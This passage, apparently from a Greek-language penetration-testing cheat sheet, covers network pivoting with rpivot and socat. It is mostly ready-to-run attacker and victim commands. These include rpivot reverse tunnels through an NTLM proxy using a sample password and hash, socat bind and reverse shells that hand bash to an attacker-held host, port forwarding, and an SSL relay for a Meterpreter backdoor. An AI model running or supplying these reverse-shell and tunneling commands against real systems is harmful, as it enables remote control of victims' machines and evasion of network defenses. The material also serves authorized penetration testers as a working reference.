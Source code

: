 ## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

Αντίστροφη σήραγγα. Η σήραγγα ξεκινά από το θύμα.\
Δημιουργείται ένα socks4 proxy στο 127.0.0.1:1080
```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```
Pivot through **NTLM proxy**
```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### Δεσμός κελύφους
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
### Αντίστροφη θήκη
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
### Port2Port
```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```
### Port2Port μέσω socks
```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```
### Meterpreter μέσω SSL Socat
```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```
